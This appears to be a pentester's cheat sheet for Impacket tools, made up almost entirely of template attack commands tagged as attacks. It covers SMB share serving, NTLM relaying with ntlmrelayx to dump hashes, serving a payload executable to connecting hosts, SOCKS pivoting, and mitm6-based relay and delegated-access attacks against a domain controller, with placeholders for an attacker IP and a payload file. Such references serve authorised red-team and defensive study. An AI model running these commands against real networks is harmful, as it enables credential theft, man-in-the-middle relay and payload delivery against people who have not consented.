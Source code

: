 # Impacket

## smbserver - share smb folder
#plateform/linux #target/serve #port/445 #protocol/smb #cat/ATTACK/LISTEN-SERVE 

A Python implementation of an SMB server. Allows to quickly set up shares and user accounts.

```
smbserver.py <shareName> <sharePath>
```

## smbserver - share smb folder with authentication
#plateform/linux #target/serve #port/445 #protocol/smb #cat/ATTACK/LISTEN-SERVE 

```
smbserver.py -username <username> -password <password> <shareName> <sharePath>
```

## ntlmrelay - host a payload that will automatically be served to the remote host connecting
#plateform/linux #target/serve #cat/ATTACK/MITM 

```
ntlmrelayx.py -tf <targets_file> -smb2support -e <payload_file|payload.exe>
```

## ntlmrelay - socks
#plateform/linux #target/serve #cat/ATTACK/MITM 
```
ntlmrelayx.py -tf <targets_file> -socks -smb2support
```

## ntlmrelay - authenticate and dump hash
#plateform/linux #target/serve #cat/ATTACK/MITM 
```
ntlmrelayx.py -tf <targets_file> -smb2support
```

## ntlmrelay - to use with mitm6 - relay to target
#plateform/linux #target/serve #cat/ATTACK/MITM 
Next use the socks with proxychains : 
proxychains smbclient //ip/Users -U domain/user

```
ntlmrelayx.py -6 -wh <attacker_ip> -t smb://<target> -l /tmp -socks -debug
```

## ntlmrelay - to use with mitm6 - delegate access
#plateform/linux #target/serve #cat/ATTACK/MITM 
```
ntlmrelayx.py -t ldaps://<dc_ip> -wh <attacker_ip> --delegate-access
```
